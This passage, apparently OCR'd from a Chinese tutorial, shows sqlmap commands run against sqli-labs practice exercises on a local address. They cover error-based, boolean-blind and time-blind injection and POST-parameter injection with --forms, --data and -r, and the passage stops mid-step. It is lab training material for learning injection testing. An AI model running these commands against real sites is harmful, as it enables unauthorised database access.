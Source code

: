 **technique**参数还可以使用其他注入方式，`B`表示布尔盲注，`E`表示报错注入，`T`表示时间盲注

这道题比较简单，多种注入姿势都是可以的


速度排序：联合注入（U） > 报错注入（E） > 布尔盲注（B） > 时间盲注（T）

报错注入（E）：

```bash
sqlmap -u "http://192.168.6.112:8080/Less-1/?id=1" --dbms=mysql --technique=E --dbs --flush-session --batch
```

布尔盲注（B）：

```bash
sqlmap -u "http://192.168.6.112:8080/Less-1/?id=1" --dbms=mysql --technique=B --dbs --flush-session --batch
```

时间盲注（T）：

```bash
sqlmap -u "http://192.168.6.112:8080/Less-1/?id=1" --dbms=mysql --technique=T --dbs --flush-session --batch
```


### --forms,--data,-r

这里使用`Less-11`，这是一个POST请求方式的单引号类型sql注入点

<pre>
--forms  自动检测表单注入点
--data   指定POST数据
--r      从抓到的http包中提取参数
</pre>

使用`--forms`参数，把工作直接交给sqlmap，让sqlmap自己探测要提交的表单参数，指定探测参数uname、联合注入，hex编码结果

```bash
sqlmap -u "http://192.168.6.112:8080/Less-11/?id=1" --dbms=mysql --forms -p uname --dbs --technique=U --flush-session --batch --hex
```

使用`--data`参数，指定POST数据，使用`-p`参数指定探测参数uname，在windows平台怪怪的，`&`字符有特殊语义

```bash
sqlmap -u "http://192.168.6.112:8080/Less-11/?id=1" --dbms=mysql --data="passwd=1&submit=Submit&uname=1" -p uname --dbs --technique=U --flush-session --batch --hex
```

使用`-r`参数，从抓到的http包中提取参数，使用`-p`参数指定探测参数uname

先用burp抓个包，保存到一个txt文件里
